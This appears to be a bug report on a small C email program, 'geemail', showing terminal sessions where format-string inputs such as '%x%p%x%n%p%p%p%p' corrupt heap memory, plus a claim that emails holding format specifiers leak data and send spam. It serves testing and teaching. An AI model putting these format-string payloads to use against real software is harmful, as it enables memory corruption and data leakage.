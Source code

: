     Second Run

    $ ./geemail
    Please enter 0 for register or 1 for login: a
    Please enter a new username: User already exists. Try again.
    Please enter a new username: User already exists. Try again.
    Please enter a new username: User already exists. Try again.
    ...

    Program received signal SIGSEGV, Segmentation fault.
    0x00007fff8b91733b in unixOpen () from /usr/lib/libsqlite3.dylib

Program is vulnerable to string format exploit

    Program crash after attempting to modify object after being freed

    If you log in as a normal user and select to read an email but use C format strings in the passphrase input, the program attempts to modify the object after being freed
    Input

    $ ./geemail
    Please enter 0 for register or 1 for login: 1
    Please enter your username: teddy
    Please enter your password: password
    You logged in successfully!
    ID = 1
    SENDER = alp
    TITLE = Hello Teddy

    Number of Emails: 3
    Please enter 1 if you want to read, enter 0 if you want to write, or 2 to quit: 1
    Please enter an email id: 1
    Please enter a secret passphrase: %x%p%x%n%p%p%p%p

    osx Output

    Please enter a secret passphrase: %x%p%x%n%p%p%p%p
    geemail(48247,0x7fff7b3b1000) malloc: *** error for object 0x7feb63403220: incorrect checksum for freed object - object was probably modified   after being freed.
    *** set a breakpoint in malloc_error_break to debug
    [1]    48247 abort      ./geemail

    cloud9 output

    Please enter a secret passphrase: %x%p%x%n%p%p%p%p
    *** Error in `./geemail': free(): invalid next size (fast): 0x00000000006db7e0 ***
    Aborted

    Program leaks memory and sends massive spam emails after reading email containing string format variables

    If you log in as a normal user and send an email that contains string format variables, when any user reads that email, data can be leaked and massive spam emails could be sent. For this demo we use this as our string format test %p%p%p%p%p%n.

    $ ./geemail
    Please enter 0 for register or 1 for login: 1
    Please enter your username: teddy
    Please enter your password: password
    You logged in successfully!
    ID = 1
    SENDER = alp
    TITLE = Hello Teddy

